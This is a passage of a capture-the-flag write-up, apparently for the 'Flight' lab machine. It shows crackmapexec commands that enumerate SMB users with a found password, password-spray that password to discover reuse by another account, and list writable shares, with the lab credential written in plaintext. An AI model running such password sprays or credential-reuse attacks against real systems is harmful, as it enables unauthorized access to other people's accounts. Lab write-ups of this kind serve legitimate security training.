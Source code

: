 We have readable access to `IPC$` and that means we can enumerate usernames with tools like `enum4linux` or `impacket-lookupsid` but we'll just keep using `crackmapexec` - 
```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --users
```

![List of usernames](Images/userlist.png)

Now that we have a list of usernames and a password, maybe we should do a **password spray** attack to see if the password is being reused by other users. `crackmapexec` also has an option for this attack - 
```crackmapexec
crackmapexec smb -u userlist -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --continue-on-success
```

We need to use `--continue-on-success` flag when we do a **password spray** because `crackmapexec` will stop at the first instance they found a match. It looks like we've found another user that's using the same password as *svc_apache*
![Password Spray with cme](Images/passwory_spray.png)


# Enumerating SMB as S.Moon
When we enumerate **SMB** shares as *S.Moon* using `crackmapexec` again, we'll find that *S.Moon* has more privileges than *svc_apache* with a writable share called `Shared` 
```crackmapexec
crackmapexec smb -u S.Moon -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --shares
```
